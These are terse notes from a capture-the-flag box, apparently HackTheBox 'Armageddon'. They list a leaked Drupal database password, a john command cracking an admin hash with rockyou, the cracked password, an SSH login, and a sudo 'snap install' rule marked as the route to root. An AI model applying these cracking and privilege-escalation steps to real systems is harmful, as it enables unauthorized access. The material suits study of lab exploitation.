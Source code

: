 #ip 10.10.10.233

'database' => 'drupal',
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj',
'host' => 'localhost',

john hash -w ../../../dictionnaire/rockyou.txt

brucetherealadmin     $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

booboo  

connexion ssh : ssh brucetherealadmin@10.10.10.233
puis passwd booboo

root piste :
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *


